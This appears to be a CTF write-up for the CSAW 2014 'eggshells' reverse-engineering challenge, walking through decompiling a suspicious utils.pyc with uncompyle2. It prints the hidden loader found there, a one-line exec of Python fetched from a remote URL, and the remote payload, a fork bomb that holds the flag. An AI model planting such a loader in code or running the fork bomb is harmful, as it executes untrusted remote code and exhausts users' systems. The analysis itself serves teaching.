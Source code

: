Title:  CSAW CTF 2014 - Reverse Engineering 100: "eggshells"
Date: 2014-09-22 9:20
Category: Reverse Engineering
Tags: CTF, CSAW, uncompyle2



This is the first exploitation problem and it starts with the following text:

> I trust people on the Internet all the time, do you?
>
> Written by ColdHeat
>
> eggshells-master.zip



## Unzipping and Analyzing the Files

Let’s unzip the provided zip file:

```sh
$ unzip eggshells-master.zip
```

This creates a directory called *eggshells-master* that contains several *Python* and *exe* files. Let us look closer to the contend of this folder:

```sh
$ tree .
├── capstone.py
├── distorm.py
├── interpreter.py
├── main.py
├── nasm
│   ├── LICENSE
│   ├── nasm.exe
│   ├── ndisasm.exe
│   └── rdoff
│       ├── ldrdf.exe
│       ├── rdf2bin.exe
│       ├── rdf2com.exe
│       ├── rdf2ihx.exe
│       ├── rdf2ith.exe
│       ├── rdf2srec.exe
│       ├── rdfdump.exe
│       ├── rdflib.exe
│       └── rdx.exe
├── nasm.py
├── server.py
├── shellcode.py
├── utils.pyc
└── wrapper.py
```

Do you see anything unusual?


## Decompiled a pre-compiled Python File

A pre-compiled Python file stands out in this list: *utils.pyc*. We need to decompile it. For this task we use  [uncompyle2], which can be installed with:

```sh
$ sudo pip install uncompyle2
```

Let's learn a bit more about this tool with ```uncompyle2 --help```. The usage is straightfoward, but it's a good knowledge to learn about the *-o* flag, which will decompile to a *.dis* file instead of *stdout*:

```sh
Usage: uncompyle2 [OPTIONS]... [ FILE | DIR]...

Examples:
  uncompyle2      foo.pyc bar.pyc       # decompile foo.pyc, bar.pyc to stdout
  uncompyle2 -o . foo.pyc bar.pyc       # decompile to ./foo.dis and ./bar.dis
  uncompyle2 -o /tmp /usr/lib/python1.5 # decompile whole library

Options:
  -o <path>     output decompiled files to this path:
                if multiple input files are decompiled, the common prefix
                is stripped from these names and the remainder appended to
                <path>
                  uncompyle -o /tmp bla/fasel.pyc bla/foo.pyc
                    -> /tmp/fasel.dis, /tmp/foo.dis
                  uncompyle -o /tmp bla/fasel.pyc bar/foo.pyc
                    -> /tmp/bla/fasel.dis, /tmp/bar/foo.dis
```

We could also use *.py* extension if we like:
```sh
  --py          use '.py' extension for generated files
```

Also, we learn about all the possible outputs:
```sh
 Extensions of generated files:
  '.pyc_dis' '.pyo_dis'   successfully decompiled (and verified if --verify)
  '.py'                   with --py option
    + '_unverified'       successfully decompile but --verify failed
    + '_failed'           uncompyle failed (contact author for enhancement)
```

All right, no more diverging. Let's play! We run the ```uncompyle2``` command and obtain the following:
```sh
$ uncompyle2 utils.pyc
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
```


## Parsing the Result and Voilà

So all that this file does is in this line:
```python
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
```

To understand this code, we need to know that Python's [exec] method performs dynamic execution of code.  In this problem, *exec* starts importing [urllib2], which is a library for opening URLs.  It has the method [urlopen()] to open the URL url, which can be either a string or a request object. This function returns a file-like object with three additional methods. Finally, [read()] would read this returned file.

So all that this script does is to try running a Python file that is hosted online!
Well, let's see what this file does! Let's just *curl* [http://kchung.co/lol.py]:

```sh
$  curl http://kchung.co/lol.py
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

Yaaay! The flag is **trust_is_risky**! Easy!

**Hack all the things!**


[uncompyle2]: https://github.com/gstarnberger/uncompyle
[http://kchung.co/lol.py]: http://kchung.co/lol.py
[exec]: https://docs.python.org/2/reference/simple_stmts.html#exec
[urllib2]: https://docs.python.org/2/library/urllib2.html#module-urllib2
[urlopen()]: https://docs.python.org/2/library/urllib2.html#urllib2.urlopen
[read()]: http://www.tutorialspoint.com/python/file_read.htm



----

**Aloha, bt3**